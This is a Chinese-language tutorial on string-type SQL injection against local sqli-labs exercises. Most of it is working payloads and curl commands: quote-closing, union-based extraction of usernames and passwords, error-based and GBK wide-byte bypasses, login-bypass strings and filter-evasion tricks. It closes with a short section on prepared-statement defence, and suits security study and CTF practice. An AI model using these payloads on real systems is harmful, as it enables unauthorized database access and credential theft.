


## 02 字符型注入 -- 考点精讲

> 前置知识：[[01-整数型注入|01-整数型注入]] -- 先掌握 union 五步流程，本篇只解决"如何逃出引号"
>
> 关联教程：[[../../../archstrike-web教学/04-SQL注入攻击|SQL注入实战]] · [[03-报错注入|03-报错注入]]

### 漏洞原理

参数是**字符串**，被引号包裹后拼进 SQL：

```php
<?php
$username = $_GET['username'];
$sql = "SELECT * FROM users WHERE username = '$username'";
?>
```

输入 `admin` 执行：

```sql
SELECT * FROM users WHERE username = 'admin'
```

输入 `admin' and '1'='1` 执行：

```sql
SELECT * FROM users WHERE username = 'admin' and '1'='1'
```

第一个 `'` 提前闭合了原引号，后半段 `and '1'='1'` 逃逸为 SQL 语法。与整数型的唯一区别就是**多了一步闭合**：payload 必须先"配平"引号再追加逻辑，最后用注释符吃掉尾部多余结构。

本章靶场对照：sqli-labs **Less-1**（GET 字符型单引号闭合，有回显位）与 **Less-5**（单引号闭合但无回显位）。以下 curl 以 Less-1 为主线演示五步全流程。

### 闭合方式判断表

源码中包裹参数的写法常见四种，payload 要与之一一对应：

| 源码写法 | SQL 形态 | 闭合 payload | 注释后的完整 payload |
|---------|---------|-------------|---------------------|
| `'$id'` | `where u='xxx'` | `1'` | `1' and 1=2 --+` |
| `"$id"` | `where u="xxx"` | `1"` | `1" and 1=2 --+` |
| `('$id')` | `where u=('xxx')` | `1')` | `1') and 1=2 --+` |
| `("$id")` | `where u=("xxx")` | `1")` | `1") and 1=2 --+` |

少见变式还有双括号 `1'))`、混合 `'$id")` 等，按报错信息推断即可。

### 注释符表格

注释掉语句尾部多余的引号和 LIMIT 等结构，是闭合的最后一步：

| 注释符 | 说明 | URL 中注意事项 |
|--------|------|---------------|
| `-- ` | ANSI 标准注释符 | **必须跟一个空格**才生效；URL 里空格要写成 `%20` 或用 `--%20` |
| `--+` | GET 场景常用 | URL 解码时 `+` 变成空格，等价于 `-- ` |
| `%23`（#） | MySQL 专属行注释 | `#` 是 URL 片段符会被浏览器截断，必须编码为 `%23` |
| `/**/` | 内联注释（非行注释） | 不能用于注释尾部，常用来**代替空格**绕 WAF |
| `/*!50000 ...*/` | 版本注释 | MySQL 5.0+ 会执行其中内容，关键字绕过利器 |

记忆要点：GET 参数里永远用 `--+` 或 `%23`，POST 表单里可以直接用 `-- ` 和 `#`。

### 闭合判断流程示意

四种闭合方式的排查顺序与依据：



### 判断闭合的 curl 对比法

标准三步定位法全部可以用 curl 完成。以 Less-1 为例：

```bash
# Step A: 加单引号看报错
curl -s "http://127.0.0.1/sqli-labs/Less-1/?id=1'"
```

预期输出关键片段：

```text
You have an error in your SQL syntax; check the manual ... near ''1'' LIMIT 0,1' at line 1
```

报错原文 `near ''1'' LIMIT 0,1'` 反推源码结构：`select ... where id='$id' LIMIT 0,1`——**单引号包裹 + 尾部 LIMIT**，所以闭合用 `'`、收尾必须加注释符。

```bash
# Step B: 恒真恒假验证闭合是否正确（注意引号配平写法）
curl -s "http://127.0.0.1/sqli-labs/Less-1/?id=1' and '1'='1"
curl -s "http://127.0.0.1/sqli-labs/Less-1/?id=1' and '1'='2"
```

预期：第一条返回 Dumb 用户信息，第二条空白。真假有差异 → 单引号闭合确认。

```bash
# Step C: 注释符收尾验证（更常用的配平方式）
curl -s "http://127.0.0.1/sqli-labs/Less-1/?id=1' and 1=1 --+"
curl -s "http://127.0.0.1/sqli-labs/Less-1/?id=1' and 1=2 --+"
```

两条响应不同且第一条正常 → 注释有效，可以进入五步流程。

若 Step A 无报错但页面异常，依次换 `1"` / `1')` / `1")` 重复上述测试；所有引号都无反应则可能被 addslashes 转义（跳到宽字节小节）或参数根本没进 SQL。

### 五步方法论完整实操（Less-1）

闭合确认为 `1' ... --+` 后，套用统一五步骨架，每条 payload 都要带上闭合与注释。

#### Step 1 确认注入存在：恒真/恒假对比

```bash
# 恒真：返回 Dumb 用户
curl -s "http://127.0.0.1/sqli-labs/Less-1/?id=1' and 1=1 --+"

# 恒假：空白页
curl -s "http://127.0.0.1/sqli-labs/Less-1/?id=1' and 1=2 --+"

# 只比大小更直观
curl -s -o /dev/null -w "%{size_download}\n" "http://127.0.0.1/sqli-labs/Less-1/?id=1' and 1=1 --+"
curl -s -o /dev/null -w "%{size_download}\n" "http://127.0.0.1/sqli-labs/Less-1/?id=1' and 1=2 --+"
# 两次数值不同 -> 注入成立
```

#### Step 2 探测列数 order by

```bash
# 正常 → 至少 3 列
curl -s "http://127.0.0.1/sqli-labs/Less-1/?id=1' order by 3 --+"

# 报错 Unknown column '4' in 'order clause' → 列数 = 3
curl -s "http://127.0.0.1/sqli-labs/Less-1/?id=1' order by 4 --+"
```

#### Step 3 获取当前数据库名

```bash
# 先探回显位
curl -s "http://127.0.0.1/sqli-labs/Less-1/?id=-1' union select 1,2,3 --+"

# 库名放进第 2 回显位，user() 放第 3 位
curl -s "http://127.0.0.1/sqli-labs/Less-1/?id=-1' union select 1,database(),user() --+"
```

Less-1 实际输出：

```text
Your Login name: security
Your Password: security@localhost
```

#### Step 4 根据库名获取表名

```bash
curl -s "http://127.0.0.1/sqli-labs/Less-1/?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security' --+"
```

输出：

```text
Your Login name: emails,referers,uagents,users
```

也可以不写字典名直接用 `table_schema=database()`，还能顺带绕开引号过滤：

```bash
curl -s "http://127.0.0.1/sqli-labs/Less-1/?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --+"
```

#### Step 5 根据表名获取列名再提取数据

```bash
# 爆 users 表列名
curl -s "http://127.0.0.1/sqli-labs/Less-1/?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' --+"
# 输出: id,username,password

# 提取数据，0x3a 冒号分隔
curl -s "http://127.0.0.1/sqli-labs/Less-1/?id=-1' union select 1,group_concat(username,0x3a,password),3 from users --+"
```

五步走完，14 条账号密码全部到手。**注意与整数型唯一的不同**：每条 URL 多了 `'` 闭合前缀和 `--+` 收尾，中间逻辑一模一样。

### Less-5 场景：无回显位怎么办

```bash
curl -s "http://127.0.0.1/sqli-labs/Less-5/?id=-1' union select 1,2,3 --+"
```

页面只显示 `You are in...`，没有把 2 和 3 打出来——union 执行了但没有回显位。此时按选择逻辑换路线：



Less-5 报错可见，所以首选报错注入：

```bash
curl -s "http://127.0.0.1/sqli-labs/Less-5/?id=1' and updatexml(1,concat(0x7e,database()),1) --+"
# XPATH syntax error: '~security'
```

完整报错流程见 [[03-报错注入|03-报错注入]]，此处只需记住判断依据：**闭合相同、注释相同，只是数据出口从回显位换成错误信息**。

### 宽字节绕过（引号被转义时）

后端对参数做了 `addslashes` 或开启 `magic_quotes_gpc` 时，`'` 会变成 `\'`（0x5c27），单引号无法逃逸：

```text
输入: admin'          → 拼接为 admin\'      → 引号被转义失效
输入: admin%df'       → 拼接为 admin%df%5c%27
                        %df%5c 在 GBK 中是合法汉字
                        → 变成 汉字 + '，单引号成功逃逸！
```

curl 示例（假设某 GBK 靶场的搜索接口 `/search.php?name=`）：

```bash
# 直接注入被转义，无反应
curl -s "http://127.0.0.1/search.php?name=admin' and 1=1 --+"

# 宽字节：%df 吃掉反斜杠，%27 就是单引号的编码
curl -s "http://127.0.0.1/search.php?name=admin%df%27%20and%201=1%20--+"
curl -s "http://127.0.0.1/search.php?name=admin%df%27%20and%201=2%20--+"
# 两条响应不同 → 宽字节逃逸成功，后续 payload 把 1' 全部换成 1%df%27 即可
```

利用条件：数据库连接编码为 GBK 系列（如 `SET NAMES gbk`），`%df` 可换成 `%bf`、`%aa` 等。UTF-8 连接下宽字节无效，只能找无引号上下文（如 `and length(database())=4` 数字比较）绕过，转入盲注思路。

### 万能密码（POST 场景）

登录框是 POST 字符型注入的重灾区。curl 用 `-d` 发 POST 体，body 内注释符不需要 URL 编码：

```bash
# 用户名填万能密码，密码随便
curl -s "http://127.0.0.1/login.php" \
     -d "uname=admin' or 1=1 #&passwd=anything"
```

拼接结果：

```sql
SELECT * FROM users WHERE username='admin' or 1=1 #' AND password='xxx'
-- 返回第一行记录，直接登录成功
```

变体速记：

```text
admin' or 1=1 #          经典款
' or 1=1 #               不需要知道用户名
admin') or 1=1 #         括号闭合款
admin" or 1=1 #          双引号款
' or 1=1 limit 1 #       多行时锁定第一行
```

POST 注入同样可以跑五步法，例如 uname 处爆库：

```bash
curl -s "http://127.0.0.1/login.php" \
     -d "uname=x' union select database(),user() #&passwd=a"
```

POST 完整五步示例（假设登录后查询为 3 列）：

```bash
URL="http://127.0.0.1/sqli-labs/Less-11/"

# Step1 恒真恒假
curl -s "${URL}" -d "uname=1' and 1=1 #&passwd=a"
curl -s "${URL}" -d "uname=1' and 1=2 #&passwd=a"

# Step2 order by 探列数（报错与否看响应差异）
curl -s "${URL}" -d "uname=1' order by 2 #&passwd=a"
curl -s "${URL}" -d "uname=1' order by 3 #&passwd=a"

# Step3 爆库
curl -s "${URL}" -d "uname=x' union select database(),user() #&passwd=a"

# Step4 爆表
curl -s "${URL}" -d "uname=x' union select group_concat(table_name),2 from information_schema.tables where table_schema=database() #&passwd=a"

# Step5 爆列取数
curl -s "${URL}" -d "uname=x' union select group_concat(username,0x3a,password),2 from users #&passwd=a"
```

GET 与 POST 的 payload 完全同构，唯一区别就是载体：GET 拼 URL、POST 用 `-d`，且 POST body 里注释符 `#` 和 `-- ` 都无需编码。

### GET 与 POST 场景差异

| 维度 | GET 注入 | POST 注入 |
|------|---------|-----------|
| 参数位置 | URL 查询串 `?u=xxx` | 请求体 `u=xxx&p=yyy` |
| curl 写法 | 拼 URL | `-d "u=xxx&p=yyy"` |
| 编码要求 | 引号可省略编码，空格用 %20/+，`#` 必须 %23 | 原样写入 body，注释符无需 URL 编码 |
| 注释符选择 | `--+` 或 `%23` | `-- ` 或 `#` 都可以 |
| 常见位置 | 搜索、翻页、详情页 id | 登录框、注册框、留言板 |
| Cookie/Header 位 | 少见 | `-b "trace=xxx"`、`-A`、`-H 'Referer: ...'` 同样可能存在注入 |

Cookie 与 UA 注入点测试示例（sqli-labs Less-18/20 类场景）：

```bash
# UA 位注入
curl -s "http://127.0.0.1/sqli-labs/" -A "' and updatexml(1,concat(0x7e,database()),1) and '1'='1"

# Cookie 位注入
curl -s "http://127.0.0.1/sqli-labs/" -b "uname=admin' and updatexml(1,concat(0x7e,database()),1)#"
```

### CTF 例题思路表

| 题目特征 | 思路 |
|---------|------|
| 输入单引号页面报错，报错带 LIMIT 字样 | 从报错反推闭合方式，按本篇三步走 |
| 输入单引号无反应，双引号报错 | 双引号闭合，其余不变 |
| 引号全部被转义（\'）且连接为 GBK | 宽字节注入 `%df%27` 吃掉反斜杠 |
| 引号被转义且为 UTF-8 连接 | 找无引号场景：布尔盲注用数字比较 `and length(database())=4` |
| 登录框提示用户不存在/密码错误两种不同文案 | 万能密码 `xx' or 1=1 #` 直接进后台 |
| 关键字被过滤（union/select 被删） | 双写 `uniunionon`、大小写 `UniOn`、内联注释 `un/**/ion`、等价函数 `mid()/left()` 替代 substr |
| 空格被过滤 | `%20`→`%0a`(换行)、`%09`(tab)、`/**/` 注释替代 |
| 页面无回显位但有报错 | 闭合不变，转 [[03-报错注入\|03-报错注入]] |

#### 例题完整流程示范（sqli-labs Less-5）

```text
1. ?id=1'                          → 报错 near ''1'' LIMIT 0,1
                                     反推源码: select ... where id='$id' LIMIT 0,1
2. ?id=1' and '1'='1               → 正常；?id=1' and '1'='2 → 异常
3. ?id=1' order by 4 --+           → 报错；order by 3 --+ 正常 → 3 列
4. ?id=1' union select 1,2,3 --+   → 页面无回显位（只显示 You are in）
                                     有报错回显 → 转 [[03-报错注入|03-报错注入]]
```

结论：闭合判断是所有字符型题目的第一步，判断完再根据"有无回显位/有无报错"选择 union 或报错或盲注路线。

### 常见坑位速查

| 现象 | 原因 | 解决 |
|------|------|------|
| `--+` 注释后仍报语法错误 | 目标做了二次 URL 解码，+ 未还原成空格 | 改用 `%23` 或 `--%20` |
| payload 里写 `#` 完全失效 | 浏览器/curl 把 # 当 URL 片段截断 | 必须 `%23` |
| `and '1'='1` 页面异常 | 闭合符号猜错了 | 换 `1"` / `1')` / `1")` 重试 |
| 宽字节 %df 无效 | 连接编码其实是 UTF-8 | 放弃宽字节，找无引号上下文转盲注 |
| union 正常执行但无数据 | 前半句仍有结果 | id 用 `-1'` 让主查询为空 |
| 万能密码登录失败 | 密码字段也校验或 md5 后比较 | 换注入点在密码框：`xx' or 1=1 #` 填密码位 |
| POST 数据含 & 被截断 | payload 中有 & 被当成参数分隔符 | URL 编码 & 为 %26，或 payload 里避免 & |
| curl 中文乱码 | 响应编码问题 | 加 `\|\ iconv -f gbk -t utf-8` 转码查看 |

### 自动化：sqlinject.py 工具

手工五步熟练后，可用自制工具一键完成（工具源码与用法见 `~/hackingtools/web/injection/sqlinject`（GitHub: [missercatos/tools](https://github.com/missercatos/tools)，本地位于仓库外 `/home/a/hackingtools`），位于 ~/hackingtools/web/injection/sqlinject，支持 -h/--help 查看完整指南）：

```bash
# Less-1 场景：字符型 union 路线一键打穿
./sqlinject.py -u "http://127.0.0.1/sqli-labs/Less-1/?id=1'"

# Less-5 场景：无回显位，指定报错注入模式
./sqlinject.py -u "http://127.0.0.1/sqli-labs/Less-5/?id=1'" --error

# 引号被转义的宽字节场景
./sqlinject.py -u "http://127.0.0.1/search.php?name=admin" --wide-byte
```

工具会自动尝试四种闭合方式并选定可用者，随后按五步方法论推进。手工先判闭合再用工具，效率和理解兼得。

### 防御手段

#### addslashes 的局限性

```php
<?php
$username = addslashes($_GET['username']);
$sql = "SELECT * FROM users WHERE username = '$username'";
?>
```

addslashes 把 `'` 变成 `\'`，看似安全，但有两大坑：

| 局限 | 说明 |
|------|------|
| **宽字节绕过** | GBK 编码下 `%df%5c` 组成合法汉字，`%df'` 输入后变成 `%df\'` → `%df%5c` 被吃掉，`'` 成功逃逸 |
| **不防无引号场景** | 若参数拼在数字上下文（如 limit、order by），转义引号毫无作用 |

正确做法依然是预编译：

```php
<?php
$stmt = $pdo->prepare('SELECT * FROM users WHERE username = :name');
$stmt->execute([':name' => $username]);
?>
```

外加两点：数据库连接统一使用 UTF-8（杜绝宽字节）、错误信息不回显到页面。

---
**返回** [[SQL总目录|SQL 总目录]]
